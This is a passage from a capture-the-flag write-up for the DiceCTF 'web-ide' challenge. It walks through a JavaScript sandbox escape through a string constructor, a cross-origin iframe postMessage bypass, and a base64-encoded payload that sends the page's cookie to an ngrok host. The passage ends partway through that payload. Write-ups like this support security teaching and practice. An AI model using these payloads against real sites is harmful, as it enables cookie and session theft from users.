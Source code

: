 With the above implementation, certain methods become inaccessible directly. Here, the console object has been redefined. However, we have access to `eval` function. 

## Unintended Solution

The first thing that we tried was to bypass the restrictions put through `sandbox.js`. This came out easier than what we thought. 

After some experimentation, we found that `console.log("".constructor);` gives `function String() { [native code] }` as the output. A quick Google search took us [here](https://gist.github.com/getify/b0533d921c9c4dbbdf02325a4bbac43f). This was exactly what we were looking for.

We were able to get the payload working. `console.log(''.sub.constructor('return btoa("hacker")')());` However, this too had a limitation. We weren't allowed to access cookies. Trying to access resulted in a `SecurityError: The operation is insecure.` This could be because the iframe was sandboxed. We now had to escape the iframe sandbox.

We quickly figured out a solution for this. We put up an iframe to `sandbox.html` from another server without `sandbox="allow-scripts"` attribute.

```
<body>
    <iframe src="https://web-ide.dicec.tf/sandbox.html" width="800" height="400"></iframe>
    <script>
      let xss = `console.log(document.cookie)`,
         payload = `''.sub.constructor('eval(${xss})')()`,
         frame = document.querySelector("iframe");

      frame.addEventListener("load", function (e) {
         console.log("loaded")
         frame.contentWindow.postMessage(payload, '*');
      });
   </script>
</body>
```

With the above exploit, we were able to read cookies that we set at `web-ide.dicec.tf`. But the flag cookie was only available at `/ide`. So the plan was to open a popup window at `/ide` and read the cookie from it using `sandbox.html`. The window took some time to load, so a setTimeout function was used to delay the redirect.

```
const win = window.open(\'/ide\');
setTimeout(function(){
  window.location=\"https://f9b3a1b68114.ngrok.io/flag/?\".concat(win.document.cookie)
}, 3000)
```

For some reason we got `SyntaxError: missing ) after argument list` for the payload. We then tried encoding our payload into base64 and it worked. So, the final payload was 

```
<!doctype html>
<html>

<body>
    <iframe src="https://web-ide.dicec.tf/sandbox.html" width="800" height="400"></iframe>
</body>
<script>
    let xss = 'ZXZhbCgnY29uc3Qgd2luID0gd2luZG93Lm9wZW4oXCcvaWRlXCcpO3NldFRpbWVvdXQoZnVuY3Rpb24oKXt3aW5kb3cubG9jYXRpb249XCJodHRwczovL2Y5YjNhMWI2ODExNC5uZ3Jvay5pby9mbGFnLz9cIi5jb25jYXQod2luLmRvY3VtZW50LmNvb2tpZSl9LCAzMDAwKScp',
        payload = "''.sub.constructor('eval(atob(\\'" + xss + "\\'))')()",
        frame = document.querySelector("iframe");

    frame.addEventListener("load", function (e) {
        console.log("loaded")
        frame.contentWindow.postMessage(payload, '*');
```